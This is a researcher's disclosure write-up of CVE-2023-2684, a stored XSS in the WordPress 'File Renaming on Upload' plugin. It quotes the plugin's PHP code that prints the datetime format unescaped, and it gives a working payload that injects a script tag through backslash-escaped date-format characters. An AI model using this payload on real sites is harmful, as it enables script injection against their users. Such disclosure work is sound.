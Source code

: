 # CVE-2023-2684

### Introdution

During my search for a plugin with the functionality to modify file names after uploading, I came across a particular plugin that seemed promising. As a security enthusiast, I decided to delve deeper into its code and settings to ensure it was robust and free from vulnerabilities.

### About my CVE

The CVE-2023-2684 vulnerability is a Stored Cross-Site Scripting (XSS) issue that exists within the plugin's setting panel. This plugin does not sanities and escape datetime format settings, which could allow high privilege users such as admin to perform Stored Cross-Site Scripting attacks even when the unfiltered\_html capability is disallowed.

**Affected WordPress plugin**: [https://wpscan.com/plugin/file-renaming-on-upload](https://wpscan.com/plugin/file-renaming-on-upload)

**CVE reference**: [https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/file-renaming-on-upload/file-renaming-on-upload-251-authenticated-admin-stored-cross-site-scripting](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/file-renaming-on-upload/file-renaming-on-upload-251-authenticated-admin-stored-cross-site-scripting)

### Vulnerability Analysis

In the plugin's settings panel, there is a datetime setting rule for renaming filenames, which is accompanied by an example showing the output time

<figure><img src="../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

Without diving into knowledge of programming WordPress plugins and library usage, we can still exploit this vulnerability by carefully examining the following code snippet:

```
<?php
// class-datetime-option.php
public function add_fields( $fields, $section ) {
    $datetime = \DateTime::createFromFormat( 'U.u', number_format( microtime( true ), 6, '.', '' ) );
    $format   = $datetime->format( $this->get_option( $this->option_datetime_format, 'Y-m-d_H-i-s_u' ) );
    $new_options = array(
        array(
            'name'           => $this->option_id,
            'label'          => __( 'Datetime', 'file-renaming-on-upload' ),
            'desc'           => __( 'Enables Datetime rule', 'file-renaming-on-upload' ) . ' - ' . '<strong>{' . $this->option_id . '}</strong>',
            'desc_secondary' => __( "Gets the current date and time.", 'file-renaming-on-upload' ),
            'type'           => 'checkbox',
            'default'        => 'no',
        ),
        array(
            'name'        => $this->option_datetime_format,
            'desc'        => __( 'Datetime format ', 'file-renaming-on-upload' ) . sprintf( __( 'You can see more formats <a target="_blank" href="%s">here</a>', 'file-renaming-on-upload' ), 'http://php.net/manual/function.date.php' ) . '<br />' . sprintf( __( 'Result: <b>%s</b>', 'file-renaming-on-upload' ), $format ),
            'type'        => 'text',
            'default'     => 'Y-m-d_H-i-s_u',
            'placeholder' => 'Y-m-d_H-i-s_u',
        ),
        array(
            'name' => 'datetime_separator',
            'type' => 'separator',
        ),
    );

    return parent::add_fields( array_merge( $fields, $new_options ), $section );
}
```

Let's examine the HTML tags used in the previous string of options: `sprintf( __( 'Result: <b>%s</b>', 'file-renaming-on-upload' ), $format )`. We should consider that if the result of the datetime includes HTML tags, it could potentially introduce an XSS vulnerability.

To exploit this vulnerability, all we need to do is find a way to manipulate the datetime function to generate the desired HTML syntax. According to the instructions, we can use the formatting provided in this PHP function: [https://www.php.net/manual/en/function.date.php](https://www.php.net/manual/en/function.date.php).

```
<?php
// Assuming today is March 10th, 2001, 5:16:18 pm, and that we are in the
// Mountain Standard Time (MST) Time Zone

$today = date("F j, Y, g:i a");                 // March 10, 2001, 5:16 pm
$today = date("m.d.y");                         // 03.10.01
$today = date("j, n, Y");                       // 10, 3, 2001
$today = date("Ymd");                           // 20010310
$today = date('h-i-s, j-m-y, it is w Day');     // 05-16-18, 10-03-01, 1631 1618 6 Satpm01
$today = date('\i\t \i\s \t\h\e jS \d\a\y.');   // it is the 10th day.
$today = date("D M j G:i:s T Y");               // Sat Mar 10 17:16:18 MST 2001
$today = date('H:m:s \m \i\s\ \m\o\n\t\h');     // 17:03:18 m is month
$today = date("H:i:s");                         // 17:16:18
$today = date("Y-m-d H:i:s");                   // 2001-03-10 17:16:18 (the MySQL DATETIME format)
?>
```

To keep the characters intact, we need to append a backslash (\\) before each one. Hence, the payload for executing an XSS attack is as follows:

```
Y-m-d_H-i-s_u\<\s\c\r\i\p\t\>\a\l\e\r\t\(\d\o\c\u\m\e\n\t\.\d\o\m\a\i\n\)\<\/\s\c\r\i\p\t\>
```

<figure><img src="../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

That concludes the entire process of how I discovered this CVE. Thank you for taking the time to read through it.

Timeline

```
Publicly Published
2023-05-25 (about 22 days ago)
```

\
